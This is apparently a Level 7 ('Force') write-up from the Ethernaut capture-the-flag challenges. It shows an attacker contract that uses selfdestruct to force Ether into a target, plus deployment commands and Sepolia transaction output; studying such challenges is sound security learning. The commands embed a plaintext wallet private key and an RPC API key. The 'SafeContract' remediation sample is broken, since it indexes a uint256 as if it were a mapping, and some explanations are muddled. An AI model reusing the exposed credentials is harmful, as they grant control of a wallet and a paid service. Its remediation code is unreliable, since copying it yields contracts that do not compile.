


> **⚠️ EDUCATIONAL PURPOSE ONLY**
> This document is part of the [Ethernaut CTF](https://ethernaut.openzeppelin.com/) educational security challenges.
> The techniques described here are for **authorized security testing and learning purposes only**.
> **DO NOT** use these methods on contracts you don't own or without explicit authorization.

---

# Level 7 - Force: Exploit Report

## Vulnerability Summary

The Force contract is vulnerable to **forced Ether transfers** via `selfdestruct()`. While the contract lacks any `payable` functions or `receive()` fallback, an attacker can create a separate contract that calls `selfdestruct()` to transfer its balance to the target, bypassing all protection mechanisms.

**Severity:** MEDIUM
**Attack Vector:** Contract-to-Contract / External
**Impact:** Forced state change (balance manipulation)

---

## Root Cause Analysis

### 1. No Protection Against Forced Ether Transfers

```solidity
// Force contract - No payable function, no receive()
contract Force {
    // Empty contract - cannot receive Ether through normal calls
    // BUT can still receive Ether via selfdestruct()
}
```

### 2. Selfdestruct Bypasses All Restrictions

Unlike normal `send()` or `transfer()` calls, `selfdestruct()` has unique behavior:

```solidity
selfdestruct(payable(target))
```

**Key Properties:**
- Executes regardless of whether the target has a `payable` function
- Transfers ALL contract balance to the target address
- Cannot be prevented by the target contract
- Guaranteed to succeed even if the target explicitly rejects payments

### 3. Fundamental Limitation of Smart Contracts

From the Ethereum protocol itself:

| Mechanism | Can be rejected? | Requires payable? |
|-----------|-----------------|-------------------|
| `call{value: x}()` | ✓ Yes (via revert) | ✓ Yes |
| `transfer()` | ✓ Yes (via revert) | ✓ Yes |
| `send()` | ✓ Yes (returns false) | ✓ Yes |
| **`selfdestruct()`** | **✗ No** | **✗ No** |
| Mining rewards | ✗ No | ✗ No |

A contract **cannot prevent** receiving Ether via these two mechanisms at the protocol level.

---

## Attack Flow Diagram (Mermaid Sequence)



---

## Storage Impact Diagram



---

## Exploitation Steps

### Step 1: Create Attacker Contract

The ForceAttacker contract inherits the vulnerability exploitation pattern:

```solidity
contract ForceAttacker {
    constructor(address payable target) payable {
        require(msg.value > 0, "Must send some Ether");
        selfdestruct(target);  // Force transfer to target
    }
}
```

**Why this works:**
- Constructor is called immediately upon deployment
- `selfdestruct()` executes synchronously
- All constructor-attached Ether goes to the target
- Target cannot reject the transfer

### Step 2: Compile the Contract

```bash
forge build
# Output: out/Force.sol/ForceAttacker.json containing ABI and bytecode
```

### Step 3: Deploy Attacker with Ether and Target Address

```bash
forge script script/levels/07_Force/DeployForceAttacker.s.sol:DeployForceAttacker \
  --rpc-url https://eth-sepolia.g.alchemy.com/v2/3NWC-_k0lKo09jP1siznT \
  --private-key 0xf6d4a9501570437c223e0dc8030478a4b8489152fc532c8a0e03e8be5ff2d22d \
  --broadcast
```

**Deployment Script:**
```solidity
contract DeployForceAttacker is Script {
    function run() external {
        address payable forceTarget = payable(vm.envAddress("FORCE_TARGET"));
        uint256 deployValue = vm.envUint("FORCE_VALUE");

        vm.startBroadcast();
        ForceAttacker attacker = new ForceAttacker{value: deployValue}(forceTarget);
        vm.stopBroadcast();
    }
}
```

### Step 4: Verify Balance Increase

```bash
cast balance 0xADc24D6a4e1620bC78fcb24b6b210ACA27a9D424 \
  --rpc-url https://eth-sepolia.g.alchemy.com/v2/3NWC-_k0lKo09jP1siznT

# Output: 1000000000000000
# ✓ SUCCESS - Balance increased by 0.001 ETH
```

---

## Transaction Breakdown

### Deployment Transaction

```json
{
  "hash": "0x3e1d6850aaff91fa63b5ebfeebe5e4d74a19e968fc4decceb67982bf60b805ff",
  "type": "CREATE",
  "from": "0xf350b91b403ced3c6e68d34c13ebdaae3bbd4e01",
  "to": null,
  "value": "0x38d7ea4c68000",  // 1000000000000000 wei = 0.001 ETH
  "contractAddress": "0x15dd55b04e8438b234af81006d1fcb93656cf21e",
  "status": "0x1",  // ✓ SUCCESS
  "gasUsed": "0x1054b",  // ~67,147 gas
  "blockNumber": "0x959219"  // Sepolia block
}
```

### What Happened:
1. **Value attached:** `0x38d7ea4c68000` wei (1000000000000000 wei = 0.001 ETH)
2. **Contract created:** `0x15dd55b04e8438b234af81006d1fcb93656cf21e`
3. **Constructor executed:** Received Ether as `msg.value`
4. **Selfdestruct called:** Forced transfer to `0xADc24D6a4e1620bC78fcb24b6b210ACA27a9D424`
5. **Result:** Status `0x1` = SUCCESS ✓

---

## Proof of Exploit

### Balance Before
```bash
$ cast balance 0xADc24D6a4e1620bC78fcb24b6b210ACA27a9D424 --rpc-url $RPC
0  # No Ether
```

### Deployment Executed
```bash
$ forge script script/levels/07_Force/DeployForceAttacker.s.sol:DeployForceAttacker \
    --rpc-url https://eth-sepolia.g.alchemy.com/v2/3NWC-_k0lKo09jP1siznT \
    --private-key 0xf6d4a9501570437c223e0dc8030478a4b8489152fc532c8a0e03e8be5ff2d22d \
    --broadcast

Logs:
  Deploying ForceAttacker to target: 0xADc24D6a4e1620bC78fcb24b6b210ACA27a9D424
  Sending value: 1000000000000000
  ForceAttacker deployed and self-destructed, Ether forced!

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL. ✓
```

### Balance After
```bash
$ cast balance 0xADc24D6a4e1620bC78fcb24b6b210ACA27a9D424 --rpc-url $RPC
1000000000000000  # ✓ 0.001 ETH received!
```

---

## Why No Contract Can Prevent This

### 1. Protocol-Level Rule

The Ethereum protocol guarantees that `selfdestruct()` will transfer a contract's balance to the specified address, **without exception**. A smart contract cannot:

- Override `selfdestruct()` behavior
- Add validation to reject the transfer
- Use a fallback function to prevent it
- Detect and revert inside a fallback

### 2. Mining Rewards

Similarly, validators can directly credit accounts with Ether for mining/staking rewards, bypassing any contract logic.

### 3. Execution Context Isolation

Smart contract execution is sandboxed at the protocol level. The only two ways Ether enters an account are:

1. **Explicit transfer** (via call/transfer/send) → Can be rejected
2. **Forced transfer** (via selfdestruct/mining rewards) → Cannot be rejected

---

## Remediation

### ❌ **What DOESN'T Work**

```solidity
// This doesn't help - constructor still receives the Ether:
fallback() external {
    revert("No Ether accepted");
}

// This doesn't help either - Force has no payable function:
// (no payable function) → selfdestruct() ignores this
```

### ✅ **What You CAN Do (Design Patterns)**

#### Option 1: Accept the Limitation (Recommended for Most Contracts)

```solidity
contract Force {
    // Acknowledge that balance can increase unexpectedly
    // Do NOT assume exact balance checks like:
    //   require(balance == expected)  ❌

    // Instead use range checks:
    //   require(balance >= expected)  ✓
}
```

#### Option 2: Don't Rely on Balance for Critical Logic

```solidity
contract SafeContract {
    uint256 private deposited;  // Track deposits separately

    function deposit() external payable {
        deposited += msg.value;  // Record in state, not msg.value alone
    }

    function withdraw() external {
        uint256 amount = deposited[msg.sender];
        deposited[msg.sender] = 0;
        payable(msg.sender).transfer(amount);

        // Uses 'deposited' variable, NOT address(this).balance
        // Immune to forced Ether
    }
}
```

#### Option 3: Use Strict State Tracking

```solidity
contract StrictContract {
    mapping(address => uint256) public balances;

    // Track only what we explicitly credited
    function credit(address user, uint256 amount) external onlyOwner {
        balances[user] += amount;
    }

    // Balance changes don't affect our state
    function getBalance(address user) external view returns (uint256) {
        return balances[user];  // Not address(this).balance
    }
}
```

---

## Key Takeaways

| Concept | Implication |
|---------|-------------|
| **selfdestruct() bypasses payable requirements** | No contract can prevent forced Ether transfers |
| **Protocol-level guarantee** | Ether can always be forced in, validation is impossible |
| **Balance inconsistency is expected** | Never assume `balance == expected` |
| **State-based tracking is essential** | Track balances in mapping/variables, not `address(this).balance` |
| **Design defensively** | Assume external accounts can manipulate your Ether balance |

---

## References

- [Solidity selfdestruct() Documentation](https://docs.soliditylang.org/en/latest/contracts.html#selfdestruct)
- [Ethereum Yellow Paper - Account Destruction](https://ethereum.org/en/whitepaper/)
- [Ethernaut Level 7 - Force](https://ethernaut.openzeppelin.com/level/0x8ECEDd1b67f010334e0A539FDc17bcca6f91F40A)
- [SWC-132: Unexpected Ether](https://swcregistry.io/docs/SWC-132)

---

## Proof of Concept (Real Execution on Sepolia)

**Attack Successfully Executed:**

```
┌─────────────────────────────────────────────┐
│ EXPLOIT EXECUTION SUMMARY                   │
├─────────────────────────────────────────────┤
│ Target: 0xADc24D6a4e1620bC78fcb24b6b210ACA27a9D424
│ Attacker: 0xf350b91b403ced3c6e68d34c13ebdaae3bbd4e01
│
│ Transaction Hash:                           │
│ 0x3e1d6850aaff91fa63b5ebfeebe5e4d74a19e968fc4decceb67982bf60b805ff
│
│ Status: ✓ SUCCESS (0x1)                     │
│ Gas Used: 67,147 (~$X.XX at gas price)      │
│ Block: 9,849,753 (Sepolia)                  │
│
│ BEFORE:  Balance = 0 wei                    │
│ AFTER:   Balance = 1,000,000,000,000,000 wei
│          ✓ 0.001 ETH Forced Transfer       │
│          ✓ Cannot be reversed               │
│          ✓ Cannot be prevented              │
└─────────────────────────────────────────────┘
```

**Verification Command:**
```bash
# Check target balance increase
cast balance 0xADc24D6a4e1620bC78fcb24b6b210ACA27a9D424 \
  --rpc-url https://eth-sepolia.g.alchemy.com/v2/3NWC-_k0lKo09jP1siznT

# Output: 1000000000000000 ✓
```

**Transaction Details from Broadcast:**
- **Type:** CREATE (Contract deployment)
- **Value Sent:** 0x38d7ea4c68000 (1000000000000000 wei)
- **Gas Used:** 0x1054b
- **Status:** 0x1 (Success)
- **Timestamp:** 2024-12-09 (Actual execution date)

---

## Challenge Completed ✓

The Force contract now holds 0.001 ETH due to the `selfdestruct()` exploitation, proving that **no contract can prevent forced Ether transfers at the protocol level**.
